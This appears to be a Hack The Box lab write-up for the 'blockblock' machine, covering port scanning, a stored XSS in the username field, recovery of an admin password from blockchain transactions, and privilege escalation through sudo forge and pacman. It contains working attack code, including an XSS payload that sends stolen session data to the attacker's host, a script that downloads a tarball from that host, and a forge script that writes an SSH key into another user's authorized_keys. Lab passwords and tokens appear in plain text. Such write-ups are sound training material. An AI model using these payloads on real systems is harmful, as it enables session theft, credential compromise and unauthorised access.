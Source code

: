 ```yaml
---
layout: post
title: HTB - blockblock
date: 2025-04-02 09:03 -0400
---
```


{{ 'blockblock' | machine_img }}

## nmap
```bash
~/workspace/projects/htb/blockblock » sudo nmap -p- $(cat ip.txt) --min-rate 1024
[sudo] password for shafou:
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-04 10:22 -04
Nmap scan report for 10.10.11.43
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8545/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 77.30 seconds
```

Port 80 is a defi web app.
![main website](/assets/img/blockblock4.png)

8545 is the blockchain rpc endpoint.
Only `eth_blockNumber` seems to work without authentication.
![burp blockchain rpc1](/assets/img/blockblock2.png)
![burp blockchain rpc2](/assets/img/blockblock3.png)

`/api/contract_source` gives us the source code for the solidity part. Since its using a blockchain we can see the whole history and probably find the admin password in there.
```solidity
// Database.sol:38 ~ 42
    constructor(string memory secondaryAdminUsername,string memory password) {
        users["admin"] = User(password, "admin", true);
        owner = msg.sender;
        registerAccount(secondaryAdminUsername, password);
    }
```

There seems to be an XSS on username. So we can get the admin token from `/api/info`.
```python
import requests
import random
import base64

i = random.choice(range(1000000))
url = "http://blockblock.htb/api/register"
payload = b"""fetch("/api/info")
.then(res => { return res.text() })
.then(data => { return fetch(`http://10.10.14.9:5000/?info=${data}`) })
"""
payload = base64.b64encode(payload).decode()

payload = f"{i}<img src=x onerror=eval(atob('{payload}'))>"
headers = {
    "Content-Type": "application/json",
}
data = {"username": payload, "password": "asd", "repeatedPassword": "asd"}
response = requests.post(url, json=data, headers=headers)
t = response.json()["token"]

url = "http://blockblock.htb/api/report_user"
data = {"username": payload}
response = requests.post(url, json=data, headers=headers, cookies={"token": t})
```

After that we check the admin dashboard and find out how the auth works by accident.
![burp blockchain rpc3](/assets/img/blockblock1.png)

You can then add that token to the http header `token: <token>`

We can now check every transaction and look for the admin password.
```python
import requests
import string

url = "http://blockblock.htb:80/api/json-rpc"
cookies = {
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0MjkxNTgzNiwianRpIjoiYjllZGYxZTItMWI5My00YWEyLTk2OGYtNjZhN2IyNmNhMzA1IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFzZCIsIm5iZiI6MTc0MjkxNTgzNiwiZXhwIjoxNzQzNTIwNjM2fQ.bBE5GdYSLkEdJoTFJS0KrfhPBm08Z-Fep5tT8Yz9U2c"
}
headers = {
    "token": "e06e2af5449cb73b6d23bffa0302fe3b57a08f7075a7c6c93113e0fe26b74f68"
}
j = {
    "id": 1,
    "jsonrpc": "2.0",
    "method": "eth_getBlockByNumber",
    "params": ["0x01", True],
}
res = requests.post(
    url,
    headers=headers,
    cookies=cookies,
    json=j,
    proxies={"http": "http://0.0.0.0:8080", "https": "https://0.0.0.0:8080"},
)
trans = res.json()["result"]["transactions"]
for t in trans:
    code = t["input"][2:]

    s = [int(code[i : i + 2], 16) for i in range(0, len(code), 2)]

    dec = ""
    for c in s:
        try:
            c = chr(c)
            if c in string.printable:
                dec = dec + c
                continue

            dec = dec + "___"
        except:
            pass

    print(f"DEBUGPRINT[7]: dec.py:7: dec={dec}")
```

Kinda scuffed but its pretty clear what the password is:

```
keira___________________________________________________________________________________________
______________________________________________________________________________________SomedayBitCo
inWillCollapse__________________
```

it works for both `keira` and `admin`.

```bash
[keira@blockblock ~]$ cat user.txt
cd0fe***************************
```

# priv esc
## paul 1

The creds for the paul account are hardcoded on `/home/keira/webapp/db/db.py`. But this is kinda of guessy way to escalate.

```python
// database.py:16
account = web3.eth.account.decrypt(keystore, "september")
```

## paul 2
Another way to escalate to paul is with forge.
```bash
[keira@blockblock ~]$ sudo -l
User keira may run the following commands on blockblock:
    (paul : paul) NOPASSWD: /home/paul/.foundry/bin/forge
```

You make a forge project. And write your key into paul's authorized keys.
```bash
#!/bin/bash

tar -cvf ./ble.tar.zx ble && mv ./ble.tar.zx ~/flask_lab/static/
sshpass -p 'SomedayBitCoinWillCollapse' ssh keira@$(cat ip.txt) \
  'rm -rf /tmp/123; \
   mkdir -p /tmp/123 && cd /tmp/123 && \
   curl 10.10.14.9:5000/static/ble.tar.zx -O && \
   tar -xvf ble.tar.zx && \
   cd /tmp/123/ble && \
   find -exec chmod 4777 {} \; && \
   sudo -u paul /home/paul/.foundry/bin/forge script script/Counter.s.sol:CounterScript -vvv'
```

```toml
[profile.default]
src = "src"
out = "out"
libs = ["lib"]

fs_permissions = [{ access = "read-write", path = "/" }]
```

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";

contract CounterScript is Script {
    function setUp() public {}

    function run() public {
        vm.startBroadcast();
        vm.writeFile("/home/paul/.ssh/authorized_keys", "<SSH PUB KEY>");
        vm.stopBroadcast();
    }
}
```


## root
For root there is a pretty straight forward [poc](http://thecybersimon.com/posts/Privilege-Escalation-via-Pacman/) to exploit pacman.

```bash
# sshpass -p 'september' ssh paul@$(cat ip.txt)
[paul@blockblock contracts]$ sudo -l
User paul may run the following commands on blockblock:
    (ALL : ALL) NOPASSWD: /usr/bin/pacman
```

```bash
[root@blockblock ~]# cat root.txt
ca20c***************************
```
